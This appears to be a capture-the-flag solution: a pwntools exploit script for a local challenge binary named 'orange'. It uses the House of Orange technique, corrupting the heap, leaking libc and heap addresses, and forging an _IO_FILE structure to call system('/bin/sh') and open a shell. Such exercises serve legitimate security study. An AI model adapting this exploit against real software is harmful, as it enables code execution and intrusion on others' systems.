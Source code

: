 # EXP
```python
#utf-8
from pwn import *
#context.log_level='debug'
def cmd(c):
	p.sendlineafter("Your choice : ",str(c))
def add(size,name,price=0,color=2):
	cmd(1)
	p.sendlineafter("Length of name :",str(size))
	p.sendafter("Name :",name)
	p.sendlineafter("Price of Orange:",str(price))
	p.sendlineafter("Color of Orange:",str(color))
def show():
	cmd(2)
def edit(size,name,price=0,color=2):
	cmd(3)
	p.sendlineafter("Length of name :",str(size))
	p.sendafter("Name:",name)
	p.sendlineafter("Price of Orange:",str(price))
	p.sendlineafter("Color of Orange:",str(color))
p=process("./orange")

add(0x18,"AAAA")#0
edit(0x70,p64(0)*3+p64(0x21)+p64(0)*3+p64(0xfa1)+p64(0))

add(0xff0,"BBBB")#1
add(0x608,"\n")#2

#leak
show()
p.readuntil("Name of house : \n")
base=u64(("\x00"+p.readline()[:-1]+"\x00").ljust(8,'\x00'))-(0x7ffff7dd2100-0x00007ffff7a0d000)
edit(0x20,"A"*0x10)
show()
p.readuntil("A"*0x10)
heap=u64((p.readline()[:-1]).ljust(8,'\x00'))-(0x5555557580c0-0x0000555555758000)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address=base
#gdb.attach(p,'b _IO_flush_all_lockp')
log.warning(hex(base))
log.warning(hex(heap))
#leak over
#sizeof (IO_FILE+8)=0xa0
fio=heap+0x5555557586f0-0x0000555555758000
payload="A"*0x608+p64(0x21)+p64(0)*2
fake = "/bin/sh\x00"+p64(0x61)+p64(libc.symbols['system'])+p64(libc.symbols['_IO_list_all']-0x10)+p64(0)+p64(1)
fake =fake.ljust(0xa0,'\x00')+p64(fio+0x8)
fake =fake.ljust(0xc0,'\x00')+p64(1)
fake = fake.ljust(0xd8, '\x00')+p64(fio+0xd8-0x10)+p64(libc.symbols['system'])
payload=payload+fake
edit(0xfff,payload)

cmd(1)
p.interactive()
```
